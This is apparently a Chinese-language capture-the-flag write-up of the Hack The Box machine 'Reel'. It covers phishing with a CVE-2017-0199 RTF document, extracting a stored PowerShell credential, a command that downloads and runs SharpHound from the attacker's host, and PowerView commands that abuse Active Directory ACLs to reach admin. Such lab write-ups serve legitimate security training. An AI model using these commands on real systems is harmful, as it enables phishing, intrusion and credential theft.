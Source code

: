 ```yaml
---
title: Reel
date: 2021-12-24 11:32:51
tags: Hack The Box
top: true
categories: 邮箱钓鱼
---
```


## 信息收集

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 05:18 EST
Nmap scan report for 10.10.10.77
Host is up (0.30s latency).
Not shown: 9997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp open  smtp?
| fingerprint-strings: 
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 Mail Service ready
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.91%I=7%D=11/14%Time=6190E2F5%P=x86_64-pc-linux-gnu%r(NUL
SF:L,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20
SF:Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")
SF:%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20E
SF:HLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n
SF:");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   301.22 ms 10.10.14.1
2   301.21 ms 10.10.10.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.69 seconds
```

<!--more-->

发现开放了21端口，可以匿名登录，并且在documents目录下发现了两个docx文件，我们将其下载下来并使用exiftool查看内容如下![在这里插入图片描述](https://img-blog.csdnimg.cn/15c476e67c4941c6b76d60c03fdede70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
readme.txt文件告诉我们有人正在等待 .rtf 文件并将打开它们进行审查，因为考虑到机器上正在运行 SMTP 服务，这可能是我们的目标，具有网络钓鱼攻击。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c858f787033a4c5b8a8cbbe73d598b86.png)

查阅官方文档发现，AppLocker可以阻止可执行文件和脚本

```bash
AppLocker procedure to be documented - hash rules for exe, msi and scripts  (ps1,vbs,cmd,bat,js) are in effect.
```

我们发现Windows Event Forwarding.docx这个文件中存在一个邮箱地址`nico@megabank.com`
![在这里插入图片描述](https://img-blog.csdnimg.cn/14102687e160477884fd2f3e6c8910a6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

根据刚刚readme.txt的文件内容，我们可以尝试将rtf文件发送到这个地址上，我们从application字段中发现我们可以使用word文档的方式进行创建。并且我们在网上搜索看到，关于rtf文件漏洞利用是已经披露的漏洞编号`CVE-2017-0199`，此漏洞允许创建恶意 rtf 文档，在打开文档时启动 HTA（超文本应用程序)有效负载，Github 上有一个用于制作利用此漏洞的恶意文档的 Python 工具包，但也有一个 Metasploit 模块，我仍然将使用 Python 脚本。

## 漏洞利用

首先我们创建一个hta的载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6c156c3e5e84eebb3b7207a29673574.png)
本地开启http服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/ebf7fdbfa46043bb84f2a0e1c331c6c7.png)

然后利用这个hta脚本，创建rtf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf21d9b792054d399fe94052c21c3129.png)
最后发送钓鱼邮件进行获取权限

```bash
sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77 -v
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f64aa5ef2a984a4e92fd8dfed197da16.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发送钓鱼邮件并开启监听，我们得到了nico账户的用户权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/6965f266fe7341beb4fd71506ff9335b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权到TOM权限

我们从Nico账户的桌面上看到一个cred.xml文件，文件内容包含了password字段内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b971324dcaa14613a8d91aa6b4997923.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
PowerShell 有一个称为 PSCredential 的对象，它提供了一种存储用户名、密码和凭据的方法。还有两个函数Import-CliXml和Export-CliXml，用于将这些凭据保存到文件中并从文件中恢复它们。该文件是Export-CliXml，我们发现Tom的密码是`1ts-mag1c!!!`

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

因为目标主机开放了22端口，因此我们可以连接主机的远程服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ef87585054476281e5aa1595fa284e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在tom的桌面的AD audit文件夹下发现了一个有趣的文件内容，还有一个BloodHound文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/67be2e3fd4494a14bc46cd3a6af8eb45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b9cfa8736d42788e6f32b6d3b628fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过查阅文章发现，bloodhound通过csv文件形式保存文件的，都是2.0版本以前的了，那么我们现在有两个选择，一个是在目标主机上安装旧版本的bloodhound，二是将收集到的数据上传到我们攻击机上进行分析，我选择的是第二种方式。

首先我们将目标的脚本加载到内存中，绕过powershell的策略限制。收集到的信息保存在当前目录的一个压缩包中。

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/sharphound/SharpHound.ps1')
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44243984d10a4293a08aebd5b9748298.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了传输方便，我们在本地开启smb服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/65746cbe84ba4b048fb124b74a55a741.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在攻击机上开启bloodhound后，将压缩包拖进去进行分析，点击`Shortest Paths to High Value Targets`。为了方便筛选，我们选择tom到admin的提权路径和nico到admin的路径进行分析
![在这里插入图片描述](https://img-blog.csdnimg.cn/29bd464348754983b4412b33ca42a996.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/399172cccb7243948e1b64abf136697b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我知道 claire 对 Backup_Admins 组具有 WriteDacl 权限。我可以用它把她加到群里，但是事先我们先得连接到claire这个用户上。

## 提权到Administrator

首先，我们将自己设置为 claire 帐户的所有者，以便我们可以更改她的属性；然后我们更改 claire AD 对象的访问控制列表 (ACL) 以授予我们自己 (Tom) 重置 claire 密码的权限；然后我们为该帐户选择一个新密码并将其转换为 SecureString 格式，这就是 PowerShell 用于密码的格式；我们可以使用我们选择的一个更改 claire 的密码；为了将用户添加到组，我们必须提供有效的用户凭据，因此我们声明一个 PSCredential 对象来包含 claire 的用户名和密码，因为她是对 Backup_Admins 组具有写访问权限的人；最后我们使用它来将自己添加到 Backup_Admins 组

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound>  Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                         
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $password                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$passwor
d)                                                                                                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $cred
s
```

whoami /all查看到我们已经处于backup_admins组中了
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff1c27957d54fe3b71bfa62126f58b1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们还是无法查看root.txt的内容，我们却可以查看`Backup Scripts`的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4491a3626c84023b3f122732aa44800.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们在`BackupScript.ps1`中找到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3285fc7c314a4f98840bb0bc74f27320.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
直接登录管理员账号
![在这里插入图片描述](https://img-blog.csdnimg.cn/f96c6ddacbff4775947400c9dfd03743.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
